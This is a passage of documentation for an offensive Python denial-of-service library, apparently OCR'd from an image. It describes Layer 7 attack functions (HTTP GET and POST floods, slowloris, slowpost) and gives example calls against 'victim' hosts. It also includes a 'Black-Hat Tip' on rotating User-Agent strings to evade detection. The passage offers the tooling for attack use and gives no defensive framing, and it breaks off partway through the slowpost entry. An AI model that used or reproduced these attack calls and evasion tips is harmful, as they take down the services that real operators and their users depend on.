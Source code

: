 **What it does:**
Sends massive GET requests, simulating thousands of clients.

**Example – HTTP Blitz:**

```python
# 60-second assault:
DOS.Layer7.http_get_flood(
    "http://web.victim.com/index.html",
    threads=200,
    duration=60,
    always=False
)
```

#### `http_post_flood(url: str, data: Optional[dict] = None, threads: int = 50, duration: int = 30, headers: Optional[dict] = None, always: bool = True)`

**What it does:**
Bombards the server with POST payloads, exhausting app logic.

**Example – Brute Login Form:**

```python
DOS.Layer7.http_post_flood(
    "http://victim.com/login",
    data={"username":"admin","password":"wrong"},
    threads=100,
    duration=45,
    headers={"User-Agent":"Mozilla/5.0"},
    always=False
)
```

#### `slowloris(host: str, port: int = 80, sockets: int = 200, interval: int = 15, always: bool = True)`

**What it does:**
Keeps hundreds of HTTP connections half-open by sending partial headers.

**Black‑Hat Tip:** Rotate User‑Agent lines to dodge simple detection.

**Example – Stealth Slowloris:**

```python
DOS.Layer7.slowloris(
    "victim.site", port=80, sockets=500, interval=10, always=False
)
```

#### `slowpost(host: str, path: str = "/", port: int = 80, threads: int = 10, duration: int = 30, always: bool = True)`

**What it does:**
Sends HTTP POST with chunked transfer encoding, very slowly.

